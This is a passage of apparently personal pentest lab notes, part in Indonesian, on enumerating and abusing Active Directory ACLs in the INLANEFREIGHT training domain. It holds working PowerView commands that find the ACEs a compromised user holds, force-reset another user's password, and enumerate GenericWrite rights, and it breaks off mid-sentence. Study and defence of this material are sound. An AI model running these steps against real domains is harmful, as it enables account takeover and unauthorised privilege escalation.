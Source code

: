 ```yaml
---
layout: default
---
```

# ACL - Enumeration &  Abuse

## Why are ACEs Important?

💡 Attackers utilize ACE entries to either further access or establish persistence. 
These can be great for us as penetration testers as many organizations are unaware of the ACEs applied to each object or the  impact that these can have if applied incorrectly. 
They cannot be  detected by vulnerability scanning tools, and often go unchecked for  many years, especially in large and complex environments. During an assessment where the client 
has taken care of all of the "low hanging fruit" AD flaws/misconfigurations, ACL abuse can be a great way for us to move laterally/vertically and even achieve full domain compromise. 
Some example Active Directory object security permissions are as follows. These can be enumerated (and visualized) using a tool such as BloodHound, and are all abusable with PowerView, among other tools:



```bash
	
ForceChangePassword:  abused with Set-DomainUserPassword
Add Members:  abused with Add-DomainGroupMember
GenericAll:  abused with Set-DomainUserPassword or Add-DomainGroupMember
GenericWrite:  abused with Set-DomainObject
WriteOwner:  abused with Set-DomainObjectOwner
WriteDACL:  abused with Add-DomainObjectACL
AllExtendedRights:  abused with Set-DomainUserPassword or Add-DomainGroupMember
Addself:  abused with Add-DomainGroupMember
```

## ACL Enumeration With Powerview

**Assume we have username wley as compromised user**

### ForceChangePassword
#### using Get-DomainObjectACL
````
Import-Module .\PowerView.ps1
$sid = Convert-NameToSid wley
Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}

##Vulnerable Output
ObjectDN               : CN=Dana Amundsen,OU=DevOps,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ObjectAceType          : 00299570-246d-11d0-a768-00aa006e0529

# ObjectAceType with above value meaning for Force-change-password
(https://learn.microsoft.com/id-id/windows/win32/adschema/r-user-force-change-password)
````


#### Using -ResolveGUIDs Flag
```powershell
Import-Module .\PowerView.ps1
$sid = Convert-NameToSid wley
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}

##output Yang Diharapkan
ObjectDN               : CN=Dana Amundsen,OU=DevOps,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : User-Force-Change-Password
```

#### Enumerate All User
```powershell
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}

```

### Abusing Force Change Password
**changing wley password without knowing his old password**

1. Store Password user kita ke powershell credential
   
```powershell
   PS C:\htb> $SecPassword = ConvertTo-SecureString '<PASSWORD Kita >' -AsPlainText -Force
   PS C:\htb> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
```

3. Kemudian create password dari user target (eg disini user damundsen yang bisa kita ganti)
```powershell
PS C:\htb> $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```

#### Generic Write

```powershell
# Generic All Enumeration
$sid2 = Convert-NameToSid damundsen
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid2} -Verbose

AceType               : AccessAllowed
ObjectDN              : CN=Help Desk Level 1,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ListChildren, ReadProperty, GenericWrite
*Now we can see that our user damundsen has GenericWrite privileges over the Help Desk Level 1 group. and with 

```
